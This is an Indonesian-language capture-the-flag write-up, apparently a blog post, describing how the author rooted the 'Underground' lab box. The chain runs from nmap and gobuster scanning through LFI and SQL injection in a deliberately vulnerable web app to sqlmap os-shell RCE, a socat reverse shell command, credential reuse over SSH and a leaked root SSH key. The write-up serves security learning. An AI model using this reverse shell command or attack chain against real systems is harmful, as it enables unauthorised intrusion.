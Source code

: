 ```yaml
---
title: "{SHL} Challenge Underground Write Up"
date: 2020-05-21T00:25:20+07:00
tags: [ "Challenge", "SHL"]
draft: true
---
```


## About Challenge
![](/images/shl/underground/intro.png)

Machine : Underground b0x
Level   : ez to medium
Goal    : root user and read the root.txt



## Reconnaissance & Scanning
Pertama kita akan memulainya dengan melakukan scanning terhadap target menggunakan nmap, dari hasil scanning kita mendapatkan informasi berupa port ataupun service yang berjalan dan dapat diakses dari external network. 

![](/images/shl/underground/1.png)

### Port 80 (HTTP Service)
Nmap memberikan informasi bahwa port port 80 dalam kondisi open, tanpa basa-basi langsung bruteforce directory menggunakan gobuster. 

![](/images/shl/underground/2.png)

Sembari menunggu gobuster berjalan, kita coba-coba secara manual beberapa file yang mungkin dapat bermanfaat, diantaranya :
-   .git/config
-   .svn
-   backup/
-   robots.txt
-   README.md
-   readme.txt

![](/images/shl/underground/3.png)

Ditemukan file readme.txt yang memebrikan informasi bahwa terdapat SVWA (SHL Vulnerability Web App) yang terinstall disana, jujur saya baru tau SHL membuat semacam  BWAPP/DVWA nya gitu. Penasaran dengan SVWA, saya coba search di forum SHL :
![](/images/shl/underground/4.png) 

Ternyata benar adanya, SVWA pernah diposting oleh @lastname dan dipublikasikan  di github miliknya [disini]. Setelah yakin bahwa informasi ini valid, saya coba akses directory /svwa pada target.

![](/images/shl/underground/5.png)
![](/images/shl/underground/6.png)

Yang namanya vulnerable app pasti banyak celahnya, namun dari info yang kita dapatkan tadi beberapa celah sudah ditutup sehingga kita harus mencoba cari lagi celah yang masih bisa dieksploitasi. Setelah mencoba register dan berhasil login,  ditemukan beberapa kemungkinan celah yang terlihat jelas didepan mata :
-   Unrestricted file upload
-   LFI
-   SQL Injection




### Unrestricted file upload

File upload is becoming a more and more essential part of any application, where the user is able to upload their photo, their CV, or a video showcasing a project they are working on. The application should be able to fend off bogus and malicious files in a way to keep the application and the users safe. (OWASP)

![](/images/shl/underground/7.png)
 

Kita coba upload shell, namun nampaknya sudah dipatch oleh admin sehingga kita tidak dapat mengunggah web shell kita, berikut response body ketika kita coba upload file berekstensi php

![](/images/shl/underground/8.png)

### LFI (Local File Inclusion)
Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. This vulnerability exists when a web application includes a file without correctly sanitising the input, allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server. (OWASP)

![](/images/shl/underground/9.png)
![](/images/shl/underground/10.png)

Dari celah ini kita dapat melihat file-file yang ada, termasuk file konfigurasi database aplikasi yang berada pada directory db/koneksi.php, walaupun kita belum tau untuk apa nantinya. Seharusnya kita juga bisa memanfaatkan LFI ini untuk gaining acces ke system dengan memanfaatkan access.log nya. ^_^

![](/images/shl/underground/11.png)

### Sql Injection
A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands. (OWASP)

![](/images/shl/underground/12.png)

Celah sql injection terjadi di parameter id pada file read.php, jika kita memberikan single quote (‘) pada parameter id maka akan terjadi error, pada kasus ini errornya adalah text post dari id 1 tidak ditampilkan oleh aplikasi.


## Gaining Access

Kita coba untuk gaining access from LFI to RCE memanfaatkan access log yang ada, namun besarnya kapasitas file access.log (efek bruteforce mungkin) membuat saya sedikit frustasi untuk mengaksesnya, lalu saya tinggalkan. 

### Gaining Access Through Sql Injection To RCE
Kita coba untuk gaining access dari celah SQL Injection dengan tools sqlmap –os-shell, dan ternyata gagal mendapatkan shell, rupanya aplikasi ini tidak terdapat pada common document root yang biasa dipakai mwehehe. 

Kenapa kita tidak memanfaatkan celah LFI untuk mencari tahu document root nya saja? Alhasil saya menemukan document root nya di error.log nginx, lalu mengulangi langkah gaining access menggunakan sqlmap dengan custom directory yang telah ditemukan. 

![](/images/shl/underground/13.png)

![](/images/shl/underground/14.png)
Berhasil mendapatkan remote shell via sqlmap –os-shell, dan berhasil membuat webshell minimalis yang lebih indah dilihat daripada os-shell milik sqlmap. 

![](/images/shl/underground/15.png)

### Reverse Shell

Lalu dilakukan percobaan reverse shell, beberapa kali percobaan gagal namun pada akhirnya reverse shell berhasil dilakukan menggunakan socat.

Command : socat tcp-connect:IP Address:Port system:/bin/sh

![](/images/shl/underground/16.png)

![](/images/shl/underground/17.png)

Melihat shell yang digunakan sekarang menunjukkan bahwa kita sedang menggunakan shell nologin yang artinya dia bisa menjalankan shell, tapi tidak dianggap sevagai user login [man nologin]. Kenapa ngga sadar dari tadi pas load /etc/passwd saat percobaan LFI yak? Monmap namanya juga khilaf… rasanya ada yang kurang lengkap jika tidak melakukan backconnect haha...

### Gaining Access Through Database Credential
Melihat proses yang sedang berjalan, menunjukkan bahwa terdapat user human. Wait? Seperti tidak asing, pada celah LFI tadi sempat melihat credential database dengan user human, kenapa tidak coba login ssh menggunakan credential ini saja? Siapa tau beruntung yak an? Untuk memastikan coba kita check sekali lagi file koneksi.php nya

![](/images/shl/underground/18.png)

Mengingat bahwa port 22 (SSH) nya terbuka, kita coba langsung ssh ke system target, namun ternyata akses melalui port 22 ini memerlukan ssh private key. 

![](/images/shl/underground/19.png)

Sedikit perhatian pada port 2222, ternyata ini adalah port SSH yang lain. Dilakukan percobaan login user human menggunakan credential mysql pada port 2222 dan berhasil. 

![](/images/shl/underground/20.png)

![](/images/shl/underground/21.png)

## Privilege Escalation Get Root.txt

Setelah melakukan enumerasi, didapatkan folder rootsshkeybackup yang diduga berisi ssh private key milik user root. Dan benar saja didalamnya terdapat private key dan public key milik user root

![](/images/shl/underground/22.png)

Untung saja file-file ini tidak memiliki permission khusus untuk mengaksesnya, jadi tinggal menggunakan key ini saja untuk login ke user root.

![](/images/shl/underground/23.png) 

Terimakasih sudah membaca :)

## Reference
- [Reverse Shell Cheat Sheet
](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [SQL Injection
](https://owasp.org/www-community/attacks/SQL_Injection)
- [Local File Inclusion (LFI)](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)
- [Unrestricted File Upload
](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
